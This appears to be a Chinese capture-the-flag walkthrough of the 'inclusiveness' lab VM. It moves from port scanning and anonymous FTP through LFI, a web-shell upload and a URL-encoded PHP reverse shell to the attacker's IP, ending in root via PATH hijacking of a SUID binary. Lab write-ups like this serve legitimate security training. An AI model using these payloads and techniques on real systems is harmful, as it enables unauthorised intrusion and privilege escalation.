 # inclusiveness
## 信息收集
### 端口枚举
```
┌──(aaron㉿aacai)-[~/Desktop/inclusiveness]
└─$ sudo nmap -p- 192.168.146.57                     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 19:29 HKT
Nmap scan report for 192.168.146.57
Host is up (0.00016s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:CC:0B:D9 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 10.67 seconds

└─$ sudo nmap -p21,22,80 -sV -A 192.168.146.57
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-14 19:30 HKT
Nmap scan report for 192.168.146.57
Host is up (0.00032s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.146.50
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 06:1b:a3:92:83:a5:7a:15:bd:40:6e:0c:8d:98:27:7b (RSA)
|   256 cb:38:83:26:1a:9f:d3:5d:d3:fe:9b:a1:d3:bc:ab:2c (ECDSA)
|_  256 65:54:fc:2d:12:ac:e1:84:78:3e:00:23:fb:e4:c9:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:CC:0B:D9 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.32 ms 192.168.146.57

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.75 seconds

```
### FTP信息枚举
在端口枚举的时候看到FTP允许匿名访问, 匿名访问看看有没有什么文件可以下载
```
└─$ ftp 192.168.146.57   
Connected to 192.168.146.57.
220 (vsFTPd 3.0.3)
Name (192.168.146.57:aaron): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||28415|)
150 Here comes the directory listing.
drwxrwxrwx    2 0        0            4096 Feb 08  2020 pub
226 Directory send OK.
ftp> exit
221 Goodbye.

```
看来是没有...
### Web信息枚举
通过dirsearch我们可以看到有一个.robots.txt
```
[19:35:20] 200 -   59B  - /.robots.txt
[19:35:37] 200 -   10KB - /index.html
[19:35:40] 200 -  626B  - /manual/index.html
[19:35:44] 200 -   59B  - /public_html/robots.txt
[19:35:45] 200 -   59B  - /robots.txt
[19:35:45] 200 -   59B  - /robots.txt.dist

```

![Img](../FILES/inclusiveness/img-20220814193612.png)
<br>
但是返回告诉我们不是搜索引擎, 那我们就构造一个搜索引擎的ua
<br>

```
curl -s --user-agent Googlebot http://192.168.146.57/robots.txt   
```
![Img](../FILES/inclusiveness/img-20220814193752.png)
<br>
这里看到一个Disallow的目录
<br>
![Img](../FILES/inclusiveness/img-20220814193827.png)
访问之后当我们切换语言的时候, 会发现后面多了个lang=en.php, 尝试fuzz
![Img](../FILES/inclusiveness/img-20220814194154.png)
<br>
发现确实存在LFI, 直接访问/etc/passwd
<br>
![Img](../FILES/inclusiveness/img-20220814194223.png)
还记得刚开始的时候ftp是可以写入的, 那我们在就本地写一个能够接受cmd的系统函数给靶机
![Img](../FILES/inclusiveness/img-20220814194443.png)
![Img](../FILES/inclusiveness/img-20220814194510.png)
这样我们的shell.php就上去了
<br>
尝试查看一下ftp的目录在哪里, 通常在/etc下, 并且通过nmap我们也知道这个服务名为vsftpd
![Img](../FILES/inclusiveness/img-20220814194711.png)
看到了目录在/var/ftp, 这样我们就能直接访问了
![Img](../FILES/inclusiveness/img-20220814194807.png)
## 突破边界
发送php的反弹shell到靶机
```
php%20-r%20%27%24sock%3Dfsockopen%28%22192.168.146.50%22%2C4444%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27
```
![Img](../FILES/inclusiveness/img-20220814194920.png)
<br>
获取到www-data的权限
<br>
查看是否有文件具有suid的权限
![Img](../FILES/inclusiveness/img-20220814195112.png)
<br>
来到这个目录下, 查看到一个rootshell.c的文件, 通过gcc生成了rootshell
<br>
![Img](../FILES/inclusiveness/img-20220814195311.png)
![Img](../FILES/inclusiveness/img-20220814195433.png)
<br>
解读一下这行代码:    
<br>
如果文件以Tomcat的身份通过调用whoami的函数进行了身份认证之后, 可以直接提升权限, 否则将会直接打印当前的用户
<br>
那我们就去/tmp目录下新建一个whoami的文件, 然后伪造自己是tom
```
www-data@inclusiveness:/tmp$ echo "printf "tom"" > whoami
echo "printf "tom"" > whoami
www-data@inclusiveness:/tmp$ ls
ls
whoami
www-data@inclusiveness:/tmp$ chmod +x whoami
chmod +x whoami
www-data@inclusiveness:/tmp$ 
```
然后修改系统的路径到/tmp
```
www-data@inclusiveness:/tmp$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
www-data@inclusiveness:/tmp$ 
```

<br>
然后去执行/rootshell
<br>
![Img](../FILES/inclusiveness/img-20220814200330.png)
<br>
提权成功
<br>
![Img](../FILES/inclusiveness/img-20220814200354.png)
